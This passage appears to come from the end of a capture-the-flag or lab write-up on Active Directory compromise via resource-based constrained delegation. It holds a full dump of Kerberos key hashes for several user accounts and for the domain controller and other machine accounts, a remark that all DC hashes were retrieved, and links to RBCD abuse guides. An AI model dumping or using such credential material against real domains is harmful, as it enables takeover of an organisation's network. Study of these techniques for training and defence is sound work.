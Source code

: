 ```shell
bardot.mary:aes256-cts-hmac-sha1-96:54123fcaa07765a4d8136cf95cff67173d31d6c049f1d0936cb33c257aab20c5
bardot.mary:aes128-cts-hmac-sha1-96:a941571a50d40fa5771c8deffa44a501
bardot.mary:des-cbc-md5:bc79e0a8f7dfdc10
cromwell.gerard:aes256-cts-hmac-sha1-96:397983e21a3742e1d9c53bd51570a89dfdb9b79cfc15eb294500e16eee9c5a0c
cromwell.gerard:aes128-cts-hmac-sha1-96:a495521b2d0992a21d0cd6b968dbb042
cromwell.gerard:des-cbc-md5:0e2f37ae7c58310b
monroe.david:aes256-cts-hmac-sha1-96:13dd6e3f424e0e3b394964ceaf9f739c19a680c97648b1531b8e417012d9775d
monroe.david:aes128-cts-hmac-sha1-96:a15fd3bccfb2e7ead3bdf2fe4c47f355
monroe.david:des-cbc-md5:a86b5829047f2557
west.laura:aes256-cts-hmac-sha1-96:54a3167b1c9ee166874a6b09b08621394b049197270d4b754e8fedb78ee86b88
west.laura:aes128-cts-hmac-sha1-96:864381e434a5856d85c1f61bc8726378
west.laura:des-cbc-md5:8a923480ec7cd9d3
langley.lucy:aes256-cts-hmac-sha1-96:f2415b075b6e205864de19917a9989398672b062dad29d58af177d358e086998
langley.lucy:aes128-cts-hmac-sha1-96:20cdc3297fc8138726e34e45ba9f73d6
langley.lucy:des-cbc-md5:fd738a3dd0028fb0
daughtler.mabel:aes256-cts-hmac-sha1-96:7ce8f29915849ec300bd81341759d19c67e045501e1ee7e198fe37a7ee51af8d
daughtler.mabel:aes128-cts-hmac-sha1-96:791efedf5473d798dbc3267ce6d045aa
daughtler.mabel:des-cbc-md5:01ba80795bbc3ea8
stoll.rachelle:aes256-cts-hmac-sha1-96:d9cca58315e797cdb21ca8ad71278112357291a970a90084586a38d4c5ff38c2
stoll.rachelle:aes128-cts-hmac-sha1-96:c7768011ce94e18fae341bdfb5223bc3
stoll.rachelle:des-cbc-md5:b63d15683434b38f
ford.victoria:aes256-cts-hmac-sha1-96:de0a90f4f874ebb0937df96bc14308dcbb54835ac622ad16b79cf9509313f205
ford.victoria:aes128-cts-hmac-sha1-96:2241c9137590e4bde952ac411a1c22c6
ford.victoria:des-cbc-md5:13d573730ba8641f
DC$:aes256-cts-hmac-sha1-96:8967dbe9fbee0f7c51a1d6fd27d7a000c3f8076917f6f9fffa25dedaae723e32
DC$:aes128-cts-hmac-sha1-96:05e4d9d3783b169a2f7e48437c1cdb8b
DC$:des-cbc-md5:52739e08613120c4
MANAGEMENT$:aes256-cts-hmac-sha1-96:e1080e0ca1d845206ef99d5b6d336095c3362efd55e516442de41738d18a1b92
MANAGEMENT$:aes128-cts-hmac-sha1-96:fcf45088bf727e997d0368bd88bdbf02
MANAGEMENT$:des-cbc-md5:40c7f4582c75b364
GR4YPC$:aes256-cts-hmac-sha1-96:88db6a3796b239829240e6d2f5ee673d9bdac0dfc80b3e57856f8b20b86ec971
GR4YPC$:aes128-cts-hmac-sha1-96:7e738ac61c94c774ce026f3dba65c4c4
GR4YPC$:des-cbc-md5:f480859b706dea64
```

- and we have retrieved all the hashes in the DC

Guides for RBCD
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
- [https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/](https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/)
- [https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
- [https://www.alteredsecurity.com/post/resource-based-constrained-delegation-rbcd](https://www.alteredsecurity.com/post/resource-based-constrained-delegation-rbcd)
- [https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a](https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a)

